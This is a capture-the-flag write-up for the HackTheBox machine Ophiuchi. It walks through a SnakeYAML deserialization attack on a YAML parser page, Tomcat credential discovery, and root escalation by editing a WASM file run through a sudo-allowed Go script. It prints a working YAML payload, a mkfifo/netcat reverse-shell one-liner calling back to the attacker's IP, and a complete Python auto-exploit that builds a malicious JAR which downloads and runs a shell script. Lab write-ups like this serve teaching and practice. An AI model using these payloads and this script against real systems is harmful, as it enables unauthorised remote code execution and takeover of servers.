

Ophiuchi was a Medium Box from HackTheBox with Linux OS. The first shell is trough Java YAML deserialization attack that involved generating a JAR payload to inject via a serialized payload, the second shell is when you found a tomcat credentials in a config file. Then there with sudo -l you generate a WASM file to get execution of a Bash script.

The auto exploit for tomcat user is in the body of the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.227
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 8080

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.227 on the browser.

It shows us a YAML Parser Page


We run gobuster and other tools but nothing userful.

Seems interesting the YAML Parser, so let's search for that.


We follow [THIS](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) post to achieve the RCE on this box.

We found a payload to try to send on this box

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.20/"]
  ]]
]
```

So, we test it on the box


Ok, it reaches us. So let's continue the exploitation


On the post, we found a referer to [another](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/) post which explains better what is happening here.

We found a [GitHub](https://github.com/artsploit/yaml-payload) repository

We clone it on our box


It's a java file


We made some small changes on the java file. To download a script from our box, and execute it


We create the shell.sh file on our folder

```sh
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f
```


Now, we compile it

```sh
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```


Now, we try our exploit


And we get a reverse shell


Great. As always, let's automate all the things

# Auto Tomcat Shell

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


```py
#!/usr/bin/python3
# https://github.com/artsploit/yaml-payload
# https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
# Author: 0x4rt3mis
# HackTheBox - Ophiuchi - Auto deserelization exploit YAML - tomcat shell

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to create the shell payload to be downloaded
def createShellPayload(lhost,lport):
    print("[+] Let's create our shell payload !! [+]")
    payload = "#!/bin/sh\n"
    payload += "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" %(lhost,lport)
    h = open("shell.sh", "w")
    h.write(payload)
    h.close()
    print("[+] Done, shell file created !! [+]")

# Function to create the java payload
def createJavaPayload(lhost):
    # First let's create the sctructur folder to compile the jar file
    print("[+] Creating the folders !! [+]")
    os.system("mkdir src")
    os.system("mkdir src/artsploit")
    os.system("mkdir src/META-INF")
    os.system("mkdir src/META-INF/services")
    print("[+] Folders created ... Let's create the files inside !! [+]")
    # Let's create the files to compile
    ScriptEngineFactory = "artsploit.AwesomeScriptEngineFactory"
    AwesomeScriptEngineFactory = """package artsploit;
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl %s/shell.sh -o /tmp/shell1.sh");
            Runtime.getRuntime().exec("bash /tmp/shell1.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }
    @Override
    public String getEngineVersion() {
        return null;
    }
    @Override
    public List<String> getExtensions() {
        return null;
    }
    @Override
    public List<String> getMimeTypes() {
        return null;
    }
    @Override
    public List<String> getNames() {
        return null;
    }
    @Override
    public String getLanguageName() {
        return null;
    }
    @Override
    public String getLanguageVersion() {
        return null;
    }
    @Override
    public Object getParameter(String key) {
        return null;
    }
    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }
    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }
    @Override
    public String getProgram(String... statements) {
        return null;
    }
    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
""" %lhost
    # Writting the java file
    f = open("src/artsploit/AwesomeScriptEngineFactory.java", "a")
    f.write(AwesomeScriptEngineFactory)
    f.close()
    # Writting the engine file
    g = open("src/META-INF/services/javax.script.ScriptEngineFactory", "a")
    g.write(ScriptEngineFactory)
    g.close()
    print("[+] Files created, let's compile it !!! [+]")
    os.system("javac src/artsploit/AwesomeScriptEngineFactory.java >/dev/null 2>&1")
    os.system("jar -cvf yaml-payload.jar -C src/ . >/dev/null 2>&1")
    print("[+] Exploit Done... !!!! Let's execute it now !! [+]")
    os.system("rm -r src")
    
# Function to send the malicious jar to the server
def exploitServer(rhost,lhost):
    print("[+] Let's get the reverse shell !! [+]")
    url = "http://%s:8080/" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, proxies=proxies)
    os.system("sleep 3")
    url1 = "http://%s:8080/Servlet" %rhost
    headers1 = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"data": "!!javax.script.ScriptEngineManager [\r\n  !!java.net.URLClassLoader [[\r\n    !!java.net.URL [\"http://%s/yaml-payload.jar\"]\r\n  ]]\r\n]" %lhost}
    r.post(url1, headers=headers1, data=data, proxies=proxies, cookies=r.cookies)
    r.post(url1, headers=headers1, data=data, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the shell file
    createShellPayload(lhost,lport)
    # Create the java jar file
    createJavaPayload(lhost)
    # Function to send the data to the server
    exploitServer(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

Let's continue.

# Tomcat --> admin

We make an enumeration on the box, and found a credential for the admin user

```sh
grep -lRi "password" .
cat ./conf/tomcat-users.xml | grep password
```


We ssh in


Now let's become root

# Admin --> Root

With `sudo -l` we found what we can run a go script with root permision


We see what this script does

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)
func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```


We try to run it


That's because the value of `f` in `main.wasm` is not setted to 1. We need to change it to make it working and executing the deploy.sh script.

We download the `main.wasm` to our kali box to change it


We search how to edit a file with a extension of wasm and find a tool on Github.

We found the [WABT](https://github.com/WebAssembly/wabt)

We clone it and download a [Release](https://github.com/WebAssembly/wabt/releases/tag/1.0.24) (I don't want to compile it)


These are the binaries we will be using. `wat2wasm` converts from WebAssembly text format to the WebAssembly binary format. `wasm2wat` is the the inverse of wat2wasm, converts from the binary format back to the text format.

We convert to wat format

```sh
./wasm2wat main.wasm -o main.wat
```


We change the line 4 of main.wat


To


Now we compile again

```sh
./wat2wasm main.wat -o main2.wasm
```


We send to the box the main2.wasm


We make a deploy.sh with a reverse shell inside


We execute and receive a root shell on our 4242 port

```sh
sudo /usr/bin/go run /opt/wasm-functions/index.go
```


# Source Code Analysis

After add our public key to authorized_keys of root user and kill the java process, we download the files from the source code

```sh
rsync -azP root@10.10.10.227:/opt/tomcat/* .
```


According to [This](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) post the vulnerable function is on the `yaml.load` function. So we search for it

```sh
grep -lRi "yaml.load"
```


We can search for the error message on burp suite also

```sh
grep -lRi "security reason" .
```


And open the class file in jd-gui

On line 12 it get from the data param, and put it on the string **f**

On line 14 it triggers the vulnerability

